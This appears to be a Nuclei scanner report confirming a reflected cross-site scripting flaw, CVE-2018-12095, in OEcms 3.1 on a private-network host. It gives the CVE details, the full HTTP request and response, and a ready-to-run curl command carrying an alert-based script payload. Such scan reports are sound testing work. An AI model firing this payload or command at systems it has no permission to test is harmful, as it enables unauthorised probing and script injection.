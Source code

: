 ### OEcms 3.1 - Cross-Site Scripting (CVE-2018-12095) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-12095**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/cms/info.php?mod=list%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | OEcms 3.1 - Cross-Site Scripting |
| Authors | logicalhunter |
| Tags | cve, cve2018, xss |
| Severity | medium |
| Description | A Reflected Cross-Site Scripting web vulnerability has been discovered in the OEcms v3.1 web-application. The vulnerability is located in the mod parameter of info.php. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-12095](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-12095) |
| CVSS-Score | 5.40 |

**Request**
```http
GET /cms/info.php?mod=list%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 211
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/cms/info.php?mod=list</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/44895
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-12095
- https://cxsecurity.com/issue/wlb-2018060092

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36' 'http://192.168.198.179:8080/cms/info.php?mod=list%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)